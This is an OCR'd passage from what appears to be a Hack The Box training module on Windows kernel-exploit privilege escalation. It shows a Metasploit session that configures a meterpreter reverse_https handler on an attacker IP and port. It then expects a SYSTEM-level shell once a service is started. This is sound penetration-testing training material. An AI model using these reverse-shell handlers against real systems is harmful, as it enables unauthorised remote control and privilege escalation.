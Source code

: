 Kernel Exploits

```shell-session
swmpdnky@htb[/htb]$ sudo msfconsole -r handler.rc 
                                                 

         .                                         .
 .

      dBBBBBBb  dBBBP dBBBBBBP dBBBBBb  .                       o
       '   dB'                     BBP
    dB'dB'dB' dBBP     dBP     dBP BB
   dB'dB'dB' dBP      dBP     dBP  BB
  dB'dB'dB' dBBBBP   dBP     dBBBBBBB

                                   dBBBBBP  dBBBBBb  dBP    dBBBBP dBP dBBBBBBP
          .                  .                  dB' dBP    dB'.BP
                             |       dBP    dBBBB' dBP    dB'.BP dBP    dBP
                           --o--    dBP    dBP    dBP    dB'.BP dBP    dBP
                             |     dBBBBP dBP    dBBBBP dBBBBP dBP    dBP

                                                                    .
                .
        o                  To boldly go where no
                            shell has gone before


       =[ metasploit v6.0.9-dev                           ]
+ -- --=[ 2069 exploits - 1123 auxiliary - 352 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: Use the resource command to run commands from a file

[*] Processing handler.rc for ERB directives.
resource (handler.rc)> use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
resource (handler.rc)> set PAYLOAD windows/x64/meterpreter/reverse_https
PAYLOAD => windows/x64/meterpreter/reverse_https
resource (handler.rc)> set LHOST 10.10.14.3
LHOST => 10.10.14.3
resource (handler.rc)> set LPORT 8443
LPORT => 8443
resource (handler.rc)> exploit
[*] Started HTTPS reverse handler on https://10.10.14.3:8443
```

#### Starting the Service

Start the service, and we should get a session as `NT AUTHORITY\SYSTEM`.

Kernel Exploits
